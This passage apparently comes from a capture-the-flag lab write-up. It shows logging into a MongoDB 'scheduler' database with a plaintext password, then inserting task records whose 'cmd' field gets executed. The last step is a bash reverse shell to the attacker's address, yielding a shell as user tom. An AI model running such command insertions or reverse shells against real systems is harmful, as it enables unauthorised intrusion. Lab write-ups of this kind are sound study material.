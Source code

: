 I first sign-in to mongodb and list collection -> there is tasks collection:

`mongo -u mark -p 5AYRft73VtFpc84k scheduler` & `show collections`

![](https://i.imgur.com/SmGnJSZ.png)


I will see if I can create file inside of it using the commands below and It is confirmed that file can be created:

`db.tasks.insert({"cmd": "touch /tmp/jadu"})` & `db.tasks.find()`

![](https://i.imgur.com/mvYCXut.png)


Now I can spawn a reverse shell using the command below:

`db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.12/1337 0>&1'"})`

![](https://i.imgur.com/shzCxcG.png)


On my local listener, I have a shell as user **tom**:

![](https://i.imgur.com/agf8fT0.png)

